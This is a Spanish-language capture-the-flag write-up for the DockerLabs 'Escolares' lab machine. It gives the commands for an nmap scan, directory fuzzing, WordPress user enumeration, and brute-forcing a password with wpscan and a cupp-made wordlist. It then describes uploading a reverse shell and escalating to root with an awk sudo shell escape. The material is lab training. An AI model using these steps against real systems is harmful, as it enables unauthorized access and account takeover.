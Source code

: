 # Escolares

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN Escolares`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_1.jpg)     

Tenemos dos puertos abiertos, el 22 y el 80.  
Miramos a ver que hay en el puerto 80.  

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_2.jpg)     

A primera vista nada de interesante.  
Echamos un ojo al código fuente.  

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_3.jpg)  

Hay un comentario que nos debería llamar a la atención.  
Miramps la página profesores.html y vemos que hay un usaurio, que al parecer se llama Luis, que es admin de wordpress.    

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_4.jpg)    

Hacemos entonces un poco de fuzzing web para ver si podemos sacar algo util.  

`sudo gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x bak,html,php,txt`  

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_5.jpg)   

Ahora miramos la ruta http://172.17.0.2/wordpress.  

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_6.jpg)    

Efectivamente nos encontramos frente a un wordpress.  
Mirando el código fuente vemos que hay varios enlaces a un dominion nombrado **escolares.dl**.   

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_7.jpg)    

Lo que haremos ahora será modificar el fichero **hosts** añadiendo este nuevo dominio.  

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_8.jpg)    

Ahora volvemos a hacer fuzzing web para ver si sacamos más recursos.  

`sudo gobuster dir -u http://escolares.dl/wordpress -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x bak,html,php,txt`

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_9.jpg)   

Ahora deberíamos intentar enumerar los usarios para intentar hacer un ataque de fuerza bruta.  
Para ello usaremos la herramienta **wpscan**.  
Ejecutaremos el comando:  

`sudo wpscan --url http://escolares.dl/wordpress -e u,p,t`  

Trás esperar un rato vemos que nos saca un nombre de usuario, **luisillo**.  

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_10.jpg)   

Ahora intentaremos hacer un ataque de fuerza bruta utilizando el diccionario **rockyou.txt**.  

`sudo wpscan --url http://escolares.dl/wordpress --usernames luisillo --passwords /usr/share/wordlists/rockyou.txt`  

Esperamos un largo rato pero no logramos obtener una combinación valida.  
Entonces lo que haremos será crear un nuestro diccionario personalizado utilizando las informaciones que podemos ver en la página profesores.  

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_11.jpg)     

Ejecutarmos el comando `cupp -i`  

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_12.jpg)      

Ahora volveremos a utilizar wpscan para realizar un ataque de fuerza bruta con nuestro diccionario recien creado.  

`sudo wpscan --url http://escolares.dl/wordpress --usernames luisillo --passwords luis.txt`  

Perfecto!  
Tenemos una combinación valida.  

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_13.jpg)      

Por lo tanto nos logeamos  

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_14.jpg)     

y una vez dentro miramos a ver si podemos encontrar alguna manera para enviarnos una reverse shell a nuestra máquina kali.  
Vemos que hay la posibilidad de subir archivos a través del WP File manager, por lo tanto lo que haremos será subir nuestra reverse shell.

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_15.jpg)     

Una vez hecho nos pondremos a la escucha en nuesta máquina atacante y ya estaremos dentro!   

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_16.jpg)   

Bien, ahora intentamos escalar privilegios.  
Vemos que con los típicos comandos no sacamos nada de interesante.  

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_17.jpg)   

Entonces probamos a buscar algún fichero .txt con el comando:  

`find / -type f -name *.txt 2>/dev/null`  

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_18.jpg)  

Tenemos 2 ficheros nombrados **secret.txt**, uno en tmp y el otro en la home.  
Leemos el archivo que se encuentra en la home y vemos que nos devuelve una probable contraseña.  

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_19.jpg)     

Ahora probamos a entrar como luisillo con la contraseña que hemos encontrado.  

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_20.jpg)    

Bien! 
Ahora intentamos escalar a root.  
Ejecutamos el comando:  

`sudo -l`  

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_21.jpg)      

Ahora miraremos en GTFOBins como poder aprovecharnos de este binario.  

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_22.jpg)      

Perfecto, entonces ejecutamos el comando:  

`sudo awk 'BEGIN {system("/bin/sh")}'`  

Y listo!  
Ya somos root!  

![E](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/escolares/E_23.jpg)      









